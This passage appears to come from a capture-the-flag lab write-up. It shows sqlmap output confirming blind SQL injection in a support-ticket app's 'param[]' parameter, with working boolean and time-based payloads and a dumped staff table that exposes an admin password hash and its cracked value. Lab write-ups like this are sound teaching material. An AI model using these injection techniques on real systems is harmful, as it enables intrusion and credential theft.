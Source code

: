 ```
[17:33:38] [INFO] GET parameter 'param[]' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[17:33:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[17:33:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[17:33:38] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[17:33:39] [INFO] target URL appears to have 9 columns in query
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[17:33:51] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[17:33:53] [INFO] target URL appears to be UNION injectable with 9 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
...[snip]...
[17:34:23] [INFO] checking if the injection point on GET parameter 'param[]' is a false positive
GET parameter 'param[]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 433 HTTP(s) requests:
---
Parameter: param[] (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6 AND 6277=6277

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6 AND SLEEP(5)
---
[17:34:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[17:34:29] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.121'

```

I’ve got the injection. Now I’ll run with `--dump`. One table that looks interesting is:

```

Database: support
Table: staff
[1 entry]
+----+-------+------------+--------------------+--------+--------+----------+---------------+----------+-----------------------------------------------------+--------------------------------+------------+--------------------+------------------------+                     
| id | admin | login      | email              | status | avatar | username | fullname      | timezone | password                                            | signature                      | last_login | department         | newticket_notification |                     
+----+-------+------------+--------------------+--------+--------+----------+---------------+----------+-----------------------------------------------------+--------------------------------+------------+--------------------+------------------------+                     
| 1  | 1     | 1547216217 | support@mysite.com | Enable | NULL   | admin    | Administrator | <blank>  | d318f44739dced66793b1a603028133a76ae680e (Welcome1) | Best regards,\r\nAdministrator | 1543429746 | a:1:{i:0;s:1:"1";} | 0                      |                     
+----+-------+------------+--------------------+--------+--------+----------+---------------+----------+-----------------------------------------------------+--------------------------------+------------+--------------------+------------------------+ 

```

